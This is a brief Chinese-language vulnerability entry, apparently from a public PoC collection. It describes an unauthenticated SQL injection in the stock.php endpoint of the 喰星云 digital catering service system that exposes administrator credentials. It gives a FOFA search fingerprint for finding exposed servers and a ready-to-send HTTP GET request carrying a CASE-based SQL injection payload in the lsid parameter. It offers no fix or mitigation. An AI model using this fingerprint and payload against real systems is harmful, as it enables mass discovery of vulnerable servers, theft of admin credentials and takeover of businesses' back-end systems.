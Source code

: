 ## 喰星云-数字化餐饮服务系统stock.php存在SQL注入漏洞

喰星云·数字化餐饮服务系统 stock.php 接口处存在SQL注入漏洞，未经身份验证的远程攻击者可利用此漏洞读取后台管理员账号密码登录凭证信息，导致后台权限被控，造成信息泄露，使系统处于极不安全的状态。

## fofa

```yaml
body="tmp_md5_pwd"
```

## poc

```java
GET /logistics/home_warning/php/stock.php?do=getList&lsid=(SELECT+(CASE+WHEN+(6191=6193)+THEN+%27%27+ELSE+(SELECT+9641+UNION+SELECT+2384)+END)) HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
```



